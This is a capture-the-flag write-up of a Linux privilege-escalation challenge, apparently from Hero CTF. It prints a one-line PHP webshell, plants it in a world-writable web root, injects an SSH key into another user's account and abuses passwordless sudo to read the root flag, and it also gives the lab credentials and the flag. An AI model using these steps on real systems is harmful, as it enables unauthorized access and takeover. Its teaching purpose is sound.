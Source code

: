 # Undercover#2

### Category

System

### Description

Now that you proved yourself, You have to assess the security of one of their developpers systems. He's a very good coder, but not that good at keeping his system safe. Could you report to us any vulnerabilities you find in his system?

The base credentials are:
```
user1:password123
```

Format : **Hero{flag}**<br>
Author : **Log_s**

### Write up

We can connect as `user`. It turns out, that the folder /var/www/html is world writable.
```
user@e3eb9614f8a6:~$ ls -ld /var/www/html
drwxrwxrwx 1 root root 4096 Apr  8 10:48 /var/www/html
```

We also notice that the apache server is running as the `dev` user, instead of the `www-data` user.
```
user@e3eb9614f8a6:~$ ps -aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0  18388  3064 ?        Ss   10:47   0:00 /bin/bash /root/start.sh
root          12  0.0  0.0 327136 16904 ?        Ss   10:47   0:00 /usr/sbin/apache2 -k start
root          14  0.0  0.0  72312  5756 ?        S    10:47   0:00 /usr/sbin/sshd -D
dev           15  0.0  0.0 331780 12912 ?        S    10:47   0:00 /usr/sbin/apache2 -k start
dev           16  0.0  0.0 331772 12368 ?        S    10:47   0:00 /usr/sbin/apache2 -k start
dev           17  0.0  0.0 331536  8916 ?        S    10:47   0:00 /usr/sbin/apache2 -k start
dev           18  0.0  0.0 331536  8916 ?        S    10:47   0:00 /usr/sbin/apache2 -k start
dev           19  0.0  0.0 331536  8916 ?        S    10:47   0:00 /usr/sbin/apache2 -k start
root          22  0.0  0.0 103864  7168 ?        Ss   10:47   0:00 sshd: user [priv]
user          33  0.0  0.0 103864  3680 ?        R    10:47   0:00 sshd: user@pts/0
user          34  0.0  0.0  20372  3848 pts/0    Ss   10:47   0:00 -bash
user          58  0.0  0.0  38460  3456 pts/0    R+   10:50   0:00 ps -aux
```

The easy thing to do here, is to write a webshell into the `/var/www/html` folder. You can echo it, or use vim.
```php
<?php system($_GET["cmd"]) ?>
```

And here we go.
```
user@e3eb9614f8a6:~$ curl localhost/shell.php?cmd=id
uid=1000(dev) gid=1000(dev) groups=1000(dev)
```

Let's get a shell. To do so, we can simply copy our public ssh key to a world readable place, like the `/tmp` folder.
```
user@e3eb9614f8a6:~$ cp ~/.ssh/id_rsa.pub /tmp/authorized_keys
```

Using our webshell, we can just copy the key to `dev`'s `.ssh` folder.
```
user@e3eb9614f8a6:~$ curl localhost/shell.php?cmd=mkdir%20/home/dev/.ssh
user@e3eb9614f8a6:~$ curl localhost/shell.php?cmd=cp%20/tmp/authorized_keys%20/home/dev/.ssh
user@e3eb9614f8a6:~$ ssh dev@localhost
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 5.13.0-39-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

dev@e3eb9614f8a6:~$ id
uid=1000(dev) gid=1000(dev) groups=1000(dev)
```

At this point, getting a shell as root is very easy.
We notice that the dev user can run any root command without any password (probably for more comfort).
```
dev@e3eb9614f8a6:~$ sudo -l
Matching Defaults entries for dev on e3eb9614f8a6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dev may run the following commands on e3eb9614f8a6:
    (ALL) NOPASSWD: ALL
dev@e3eb9614f8a6:~$ sudo /bin/bash
root@e3eb9614f8a6:~# id
uid=0(root) gid=0(root) groups=0(root) 
root@e3eb9614f8a6:~# cat /root/flag.txt 
Hero{3w-d4ta_1s_n0t_us3l3s5}
```

NB: The reason why I didn't run the apache server as root directly for the challenge, is that the apache2 binary itself won't be ran as root. To achieve it anyway, I would have had to recompile a patched apache2 binary.

### Flag

```Hero{3w-d4ta_1s_n0t_us3l3s5}```
